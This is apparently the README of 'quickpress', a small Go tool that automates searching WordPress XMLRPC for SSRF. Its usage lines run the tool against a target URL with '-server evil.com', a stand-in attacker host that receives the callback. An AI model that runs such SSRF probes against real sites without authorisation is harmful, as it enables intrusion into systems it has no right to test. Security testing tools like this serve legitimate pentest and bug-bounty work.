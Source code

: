 # quickpress
Small tool to automate SSRF wordpress and XMLRPC finder

* Usage from src
  * go run quickpress.go -target https://www.target.com -server evil.com
* Usage from releases
  * ./quickpress.go -target https://www.target.com -server evil.com
  
* Example
  ![](https://raw.githubusercontent.com/t0gu/quickpress/master/quickpress.gif)
